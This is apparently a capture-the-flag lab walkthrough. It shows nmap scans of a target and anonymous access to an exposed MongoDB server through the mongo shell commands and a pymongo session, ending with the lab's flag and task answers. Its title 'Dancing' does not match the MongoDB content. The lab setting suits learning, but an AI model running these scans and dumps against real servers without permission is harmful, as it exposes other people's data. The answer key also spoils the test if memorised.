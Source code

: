 # Dancing

- **Category**: Starting Point - Tier 0
- **Difficulty**: Very Easy
- **Tags**: MongoDB, Web, Databases, Reconnaissance, Misconfiguration, Anonymous/Guest Access - **Tools**: nmap
- Tools: nmap, ipython+pymongo or mongodb


# Walkthrough

- [MongoDB Command Reference](https://www.mongodb.com/docs/manual/reference/command/)

## Task 1: How many TCP ports are open on the machine?

```bash
> nmap -p- -sT --min-rate 3000 10.129.58.99
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 18:53 AEST
Nmap scan report for 10.129.58.99
Host is up (0.23s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
27017/tcp open  mongod
```

> **Answer**: 2

## Task 2: Which service is running on port 27017 of the remote host?

```bash
> nmap -sV -p 27017 10.129.58.99
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 18:55 AEST
Nmap scan report for 10.129.58.99
Host is up (0.28s latency).

PORT      STATE SERVICE VERSION
27017/tcp open  mongodb MongoDB 3.6.8
```

> **Answer**: mongodb 3.6.8

## Task 3: What type of database is MongoDB? (Choose: SQL or NoSQL)

- **Explanation**: https://www.mongodb.com/nosql-explained

> **Answer**: NoSQL

## Task 4: What is the command name for the Mongo shell that is installed with the mongodb-clients package?

> **Answer**: mongo

## Task 5: What is the command used for listing all the databases present on the MongoDB server? (No need to include a trailing ;)

> **Answer**: show databases

## Task 6: What is the command used for listing out the collections in a database? (No need to include a trailing ;)

> **Answer**: show collections

## Task 7: What is the command used for dumping the content of all the documents within the collection named flag in a format that is easy to read?

> **Answer**: db.flag.find().pretty()

## Submit Flag

We can use the lightweight `pymongo` python package. You can install this and use with ipython for a lightweight MongoDB client.
The advantage of utilising the python package is the ease in which we can automate it to suit our needs.
Howevr, in this case I've just run through the commands one-by-one to demonstrate the process:

```bash
> python3 -m pip install pymongo ipython
> ipython
In [1]: from pymongo import MongoClient

In [2]: client = MongoClient('10.129.58.99', 27017)

In [3]: print(client.list_database_names())
['admin', 'config', 'local', 'sensitive_information', 'users']

In [4]: database = client.admin

In [5]: database.list_collection_names()
Out[5]: ['system.version']

In [6]: database = client.sensitive_information

In [7]: database.list_collection_names()
Out[7]: ['flag']

In [8]: [print(x) for x in database['flag'].find()]
{'_id': ObjectId('630e3dbcb82540ebbd1748c5'), 'flag': '1b6e6fb359e7c40241b6d431427ba6ea'}
```

> **Answer**: 1b6e6fb359e7c40241b6d431427ba6ea

